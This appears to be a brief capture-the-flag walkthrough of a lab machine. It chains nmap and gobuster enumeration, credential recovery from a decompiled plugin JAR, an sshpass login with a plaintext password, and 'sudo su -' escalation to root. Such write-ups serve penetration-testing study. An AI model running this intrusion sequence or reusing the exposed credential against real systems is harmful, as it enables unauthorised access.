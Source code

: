 I ran the usual nmap command, but had trouble getting the version of the FTP server:

```
nmap -sC -sV {victim ip}
```
I was able to get the port, 21, but it returned the value `?`, the other writeups I looked at were able to get that from the same command.

From visiting the website I was able to find that it is a wordpress website run on php.

Running gobuster as a directory search:
```
gobuster dir -u http://10.10.10.37 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```
In the directory `/plugins` I found the file `BlockyCore.jar`, we'll need to download `jd-gui` to look at the file. We will find SQL credentials there.

We can use `ssh` to login 
```
sshpass -p 8YsqfCTnvxAUeduzjNSXe22 ssh notch@10.10.10.37
```
I run `sudo -l`, turns out notch may run all commands on  Blocky. 

```
sudo su -
```
The above commands get us root.

We run `cat root.txt` and it gets us our flag.



